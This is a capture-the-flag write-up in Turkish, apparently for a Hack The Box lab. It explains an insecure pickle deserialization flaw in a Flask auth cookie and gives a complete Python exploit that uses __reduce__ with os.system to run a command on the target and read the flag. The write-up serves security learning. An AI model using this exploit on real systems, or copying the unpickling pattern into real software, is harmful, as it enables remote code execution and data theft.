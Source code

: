 ```

        if not token:
            return abort(401, 'Unauthorised access detected!')
        
        try:
            user = pickle.loads(base64.urlsafe_b64decode(token))
            kwargs['user'] = user
            return f(*args, **kwargs)
        except:
            return abort(401, 'Unauthorised access detected!')

    return decorator
```


Yukarıdaki fonksiyon auth adlı cookie'yi alır ve eğer cookie mevcut değilse 401 Unauthorized yanıtı döndürür, ancak cookie mevcutsa cookie'nin base64 kodunu çözer ve üzerinde pickle.loads kullanır. Uygulama, güvenilmeyen verilerin kodunu çözüyor (“deserializing”) ve bu da komutun yürütülmesine neden oluyor

Bunu, bir sınıfta `__reduce__` metodunu uygulayarak exploit edebiliriz; bu sınıfın örneklerini pickle (serileştirme) edeceğiz. Pickle process'i sırasında çalıştırılacak bir callable (çağrılabilir) ve bazı argümanlar verebiliriz. Objeleri yeniden yapılandırmak için tasarlanmış olmasına rağmen, bunu kötüye kullanarak kodumuzu çalıştırmamız mümkün olur.

Bayrağı almak için aşağıdaki exploit'i kullanabiliriz

```
import requests
import pickle
import base64
import os
import time

url = 'http://83.136.253.1:57729'  # Hedef IP ve port
payload = f'cat /flag.txt > /app/application/static/js/flag.txt'

class RCE:
    def __reduce__(self):
        cmd = payload
        return os.system, (cmd,)

def exploit():
    pickled = pickle.dumps(RCE())
    r = requests.get(f'{url}/home', cookies={'auth': base64.urlsafe_b64encode(pickled).decode('utf-8')})
    
    while True:
        flag = requests.get(f'{url}/static/js/flag.txt')
        if 'HTB'.encode('utf-8') in flag.content:
            break
        time.sleep(5)
    
    print('[*] %s' % flag.content)

exploit()

```


![Pasted image 20250129211608.png](/img/user/resimler/Pasted%20image%2020250129211608.png)

